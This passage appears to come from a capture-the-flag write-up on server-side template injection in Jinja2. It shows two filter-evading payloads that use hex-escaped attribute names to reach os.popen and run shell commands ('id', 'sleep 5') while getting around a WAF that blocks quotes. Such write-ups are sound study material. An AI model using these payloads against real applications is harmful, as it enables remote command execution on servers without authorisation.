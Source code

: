 ![](Attachments/Pastedimage20211107075443.png)

--> Then i tried to add `{{config}}` but WAF is filtering that so we have to find some payload which bypasses the WAF and i found one [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')("id")|attr('read')()}}
```

--> But i found that it's filtering the single quote `'` also so let's try with double quote `"`

New payload :

```bash
{% include request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("sleep 5")|attr("read")()%}
```

